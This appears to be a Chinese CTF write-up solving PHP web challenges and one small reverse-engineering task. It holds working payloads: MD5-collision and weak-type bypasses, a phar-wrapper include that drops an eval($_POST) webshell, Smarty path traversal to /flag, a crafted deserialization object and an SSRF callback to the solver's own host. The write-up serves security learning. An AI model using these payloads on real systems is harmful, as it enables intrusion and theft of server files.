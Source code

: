 ### Writeup

[TOC]

#### 漏洞利用

##### bypass

利用PHP弱类型比较绕过，题目要求a和b不同而md5值相同，只需要找到符合这个条件的数据即可，使用GET传递

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

is_numeric函数会检查输入是否是数字或数字字符串，只需要插入字母即可绕过，并要求passwd==123456，在弱类型比较下，123456a==123456。num使用科学计数法绕过，只需要传递1e8就会被解析为100000000，使用POST传递

```
passwd=123456a&num=1e8
```

##### php-include

扫描目录找到include.php和upload.php，大概是上传一个webshell并include执行的题目。include.php中提示了参数为file，尝试伪协议读取源代码，?file=php://filter/read=convert.base64-encode/resource=include，可以发现所有被include的文件都会加上.php后缀。

![](https://notes.sjtu.edu.cn/uploads/upload_bcecbeffb85d79c57391c44aec1dd75b.png)

![](https://notes.sjtu.edu.cn/uploads/upload_1a82ddc8494caf603a41a1ee72dee264.png)

![](https://notes.sjtu.edu.cn/uploads/upload_340834646547a742c943540c81cfa2a8.png)

upload.php限制了文件扩展名，只需要编写hell.php（用于生成webshell）进行压缩，再将压缩包后缀改为.jpg，上传后得到路径。

```php
<?php file_put_contents('shell.php','<?php eval($_POST[2])?>'); ?>
```

![](https://notes.sjtu.edu.cn/uploads/upload_3d095a49281d34f98dae5de62f5e0281.png)

使用phar伪协议可以将hell.jpg内的hell.php文件执行，在网站根目录生成webshell，使用蚁剑连接即可得到flag。

```
?file=phar:///uploads/hell.jpg/hell.php
```

![](https://notes.sjtu.edu.cn/uploads/upload_62417c8a1133ed9b09ef5de578f49e08.png)

##### smarty

在主要代码中未对用户输入进行过滤，即使有路径拼接，但可以使用路径穿越漏洞访问其他目录。

```php
if (isset($_GET['page']) && gettype($_GET['page']) === 'string') {
    $file_path = "file://" . getcwd() . "/pages/" . $_GET['page'];
    $smarty->display($file_path);
}
```

只需要输入以下payload即可。

```
?page=../../../../../../../flag
```

##### unserialize

用户可控的$_REQUEST["data"]被反序列化为一个Test对象，func为函数名，p为函数变量，只需要使用不在黑名单中的函数即可对系统文件进行读取，这里使用file_get_contents，生成payload

```
<?php
class Test {
    public $p = "/flag";               // 读取目标
    public $func = "file_get_contents"; // 要调用的函数
    public $disable_fun = [];
}
echo urlencode(serialize(new Test()));
?>
```

使用GET传递参数

```
data=O%3A4%3A"Test"%3A3%3A{s%3A1%3A"p"%3Bs%3A10%3A"%2Fflag"%3Bs%3A4%3A"func"%3Bs%3A17%3A"file_get_contents"%3Bs%3A11%3A"disable_fun"%3Ba%3A1%3A{i%3A0%3Bi%3A123%3B}}
```

##### waitress

服务存在SSRF漏洞， 只需要控制host参数访问一个本地HTTP服务即可得到flag。首先在自己的主机上启动一个Python HTTP服务器监听请求

```
# 启动监听 8000 端口
python3 -m http.server 8000
```

在浏览器访问即可在监听终端中查看flag的内容

```
http://192.168.114.131:11002/getflag?host=1xx.xx.xx.xx:8000
```

#### 漏洞挖掘

##### 数据切换

静态分析找到sub_403090()函数，观察可得，这是一个宽字符数组赋值的过程，`LoadLibraryW()` 接受的是一个 `wchar_t *` 指针

```
word_4BAE92 = 108; // 'l'
word_4BAE86 = 109; // 'm'
word_4BAE84 = 105; // 'i'
word_4BAE88 = 103; // 'g'
word_4BAE90 = 100; // 'd'
word_4BAE96 = 0;   // null terminator
word_4BAE8A = 51;  // '3'
word_4BAE82 = 115; // 's'
word_4BAE94 = 108; // 'l'
word_4BAE8E = 46;  // '.'
word_4BAE8C = 50;  // '2'
LibFileName = 109; // 'm'
```

按地址偏移顺序拼接可得，加载的动态链接库为simg32.dll

